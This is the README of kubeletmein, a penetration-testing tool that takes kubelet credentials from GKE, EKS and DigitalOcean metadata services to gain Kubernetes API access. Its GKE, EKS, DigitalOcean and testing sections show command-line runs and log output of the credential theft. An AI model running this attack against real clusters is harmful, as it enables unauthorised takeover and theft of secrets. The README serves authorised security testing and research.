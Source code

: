 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled (the default setting).

### EKS

EKS support added by @airman604 based on the AWS EKS [bootstrap script](https://github.com/awslabs/amazon-eks-ami/blob/master/files/bootstrap.sh). This is a one step process and doesn't create a fake node, but rather impersonates the node on which the pod is running.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

A breaking change in v0.11.0 and upwards means kubeletmein uses a single stage process for all providers. Therefore it just takes a single argument for the provider and, depending on the provider (i.e. not EKS) a node-name will be required to generate the certificate for.

### GKE

```
root@kubeletmein-vulnerable:/# kubeletmein gke -n foo
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: foo
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

On EKS we can impersonate current node in a single step using IAM authentication.

```
~ $ kubeletmein eks
2021-03-02T21:37:59Z [ℹ]  generating kubeconfig for current EKS node
2021-03-02T21:37:59Z [ℹ]  fetching cluster information from user-data from the metadata service
2021-03-02T21:37:59Z [ℹ]  getting IMDSv2 token
2021-03-02T21:37:59Z [ℹ]  getting user-data
2021-03-02T21:37:59Z [ℹ]  generating EKS node kubeconfig file at: kubeconfig
2021-03-02T21:37:59Z [ℹ]  wrote kubeconfig
2021-03-02T21:37:59Z [ℹ]  to use the kubeconfig, download aws-iam-authenticator to the current directory and make it executable by following the instructions at https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html
2021-03-02T21:37:59Z [ℹ]  then try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests. Follow the instructions at
https://docs.aws.amazon.com/eks/latest/userguide/install-aws-iam-authenticator.html to download `aws-iam-authenticator`
(and make it executable), then run:

```
kubectl --kubeconfig kubeconfig get pods
```

### Digital Ocean

```
root@kubeletmein-vulnerable:/# kubeletmein do -n foo
2021-03-04T23:39:46Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T23:39:46Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T23:39:46Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T23:39:46Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T23:39:46Z [ℹ]  using bootstrap-config to request new cert for node: foo
2021-03-04T23:39:46Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T23:39:46Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          6m12s
```

## Testing

### Terraform

To simplify the process, if you want to fire up some clusters to test this on, there are example Terraform configurations provided in the `deploy/terraform` directory. There is one per cloud provider supported. You will need to provide credentials for the provider. If you're not sure how to do this head over to the Terraform website and checkout the relevant provider docs.

- AWS - (https://registry.terraform.io/providers/hashicorp/aws/latest/docs)[https://registry.terraform.io/providers/hashicorp/aws/latest/docs]

- GCP - (https://registry.terraform.io/providers/hashicorp/google/latest/docs)[https://registry.terraform.io/providers/hashicorp/google/latest/docs]

- Digital Ocean - (https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs)[https://registry.terraform.io/providers/digitalocean/digitalocean/latest/docs]

** NOTE - ONLY GKE and DIGITALOCEAN ARE CURRENTLY RELEASED, EKS IS COMING VERY SOON **

Each folder has a `Makefile` you can use if you wish to init, plan and apply the configs. You can update the `terraform.tfvars` with the necessary changes or set `TF_VAR_xx` variables. However you prefer.

The plans will create a cluster and then deploy the `4armed/kubeletmein` container image in a pod. You can then exec into this pod and run the tool. Here is output from running this on GKE.

```bash
$ kubectl exec -ti kubeletmein-vulnerable bash
root@kubeletmein-vulnerable:/# kubeletmein gke -n foo
2021-03-04T22:25:52Z [ℹ]  fetching kubelet creds from metadata service
2021-03-04T22:25:52Z [ℹ]  writing ca cert to: ca-certificates.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet cert to: kubelet.crt
2021-03-04T22:25:52Z [ℹ]  writing kubelet key to: kubelet.key
2021-03-04T22:25:52Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  wrote bootstrap-kubeconfig
2021-03-04T22:25:52Z [ℹ]  using bootstrap-config to request new cert for node: foo
2021-03-04T22:25:53Z [ℹ]  got new cert and wrote kubeconfig
2021-03-04T22:25:53Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get pods
NAME                     READY   STATUS    RESTARTS   AGE
kubeletmein-vulnerable   1/1     Running   0          12m
root@kubeletmein-vulnerable:/# kubectl --kubeconfig kubeconfig get nodes
NAME                                                  STATUS   ROLES    AGE   VERSION
gke-kubeletmein-kubeletmein-vulnerabl-6623dbee-mgkd   Ready    <none>   11m   v1.18.12-gke.1210
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.

